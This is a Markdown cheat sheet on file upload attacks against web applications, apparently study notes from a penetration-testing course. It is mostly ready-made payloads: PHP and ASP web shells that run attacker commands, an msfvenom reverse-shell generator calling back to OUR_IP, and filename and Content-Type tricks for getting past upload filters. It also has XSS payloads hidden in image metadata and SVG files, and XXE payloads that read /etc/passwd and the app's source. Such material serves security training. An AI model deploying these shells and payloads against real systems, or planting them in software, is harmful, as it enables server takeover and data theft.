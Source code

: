 # File Upload Attacks

**Tip:** Find what language runs the web app by fuzzing the extention of the index page for common file types (/index.FUZZ).

[Wappalyzer](https://www.wappalyzer.com/) can also be used to detect what languages and othertechnologies are used.

## Web Shells

| Web Shell | Description |
|-----------|-------------|
| `<?php echo file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |  
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| Command | Description |
|---------|-------------|
| **Client-Side Bypass (firefox shortcuts)** | |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector and amend front end code (also inspect displayed files after upload to find location) or use burp to alter request |
| `[CTRL+SHIFT+K]` | Load browser console to review JS functions by typing their name in |
| **Blacklist Bypass (Can terst in burp intruder tab(may need to diable URL encoding))** | |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass (try fuzzing with web exstentions wordlist first to see what are accepted)** | |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension (works when missconfigured webserver will execute because contains php and whitelist allows jpg (may need fuzzing php ext also (php7.jpg etc))) |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass (Content-Type header check), fuzz contrent type in burp** | |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/[Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) (first bytes of a file indicate its MIME-type) |

**Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as POST data), in which case we will need to modify the main Content-Type header.

### Creating Character Injection Wordlist

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do # can add more php ext here
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Limiting Content-Type wordlist example

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

## Limited Uploads

- Secure filters not exploitable with above techniques
- Fuzz file extensions to try below techniques

| Potential Attack | File Types |
|------------------|------------|
| XSS | HTML, JS, SVG, GIF |
| XXE/SSRF | XML, SVG, PDF, PPT, DOC |
| DoS | ZIP, JPG, PNG |


### XSS 

- Adding XSS payload to an image's metadata:

```bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
```

- Change the image's MIME-Type to text/html, web apps may show it as an HTML document instead of an image, thus the XSS payload would be triggered.
- Scalable Vector Graphics (SVG) images are XML-based. For this reason, we can modify their XML data to include an XSS payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

- SVG/XML example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

- Another example but to read the web apps source code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

- View page source of the upload page to see the returned file from abpve payload.
- PDF, Word Documents, PowerPoint Documents all include XML elements.